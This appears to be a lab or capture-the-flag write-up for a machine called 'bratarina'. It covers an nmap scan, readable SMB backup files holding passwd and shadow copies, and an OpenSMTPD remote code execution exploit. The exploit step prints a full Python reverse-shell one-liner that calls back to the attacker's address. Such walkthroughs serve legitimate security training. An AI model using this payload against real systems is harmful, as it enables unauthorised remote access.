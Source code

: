 # Enumeration
```
nmap -A -T4 -p- 192.168.148.71
```

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.244], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), Linux 5.0 (92%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# SMB
There is a backups share that we have read access to

![](Images/Pasted%20image%2020250503105017.png)

Within the backups directory is a passwd.bak file

![](Images/Pasted%20image%2020250503105106.png)

Within the shadow.bak file it appears we have one normal user `neil`

![](Images/Pasted%20image%2020250503105354.png)

# Exploit

![](Images/Pasted%20image%2020250503105643.png)

Exploit 6.6.1 - Remote Code Execution, we have to pass the script a Target IP, Target Port and the command we want to run. A simple python reverse shell gets the job done.

```
python3 47984.py 192.168.148.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.244\",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

![](Images/Pasted%20image%2020250503110721.png)

![](Images/Pasted%20image%2020250503110743.png)